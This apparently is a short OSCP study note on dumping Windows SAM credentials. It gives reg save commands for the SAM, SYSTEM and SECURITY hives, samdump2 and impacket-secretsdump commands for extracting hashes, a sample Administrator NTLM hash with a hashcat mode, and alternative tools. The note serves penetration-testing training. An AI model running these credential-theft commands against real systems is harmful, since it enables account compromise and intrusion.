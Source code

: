 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/10-dumping-sam/"}
---
```


The easiest way to steal the Security Account Manager (SAM) files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Download** those files to your Kali machine and **extract the hashes** using:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
Results in hashes like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5:::
```
- The string starting with "8f518" is the NTLM hash which can be cracked using hashcat -m 1000

Alternatives:
```
.\secretsdump_windows.exe -sam C:\windows\system32\config\SAM -system C:\windows\system32\config\SYSTEM LOCAL

fgdump

pypykatz
```

Credit: https://book.hacktricks.xyz/windows-hardening/stealing-credentials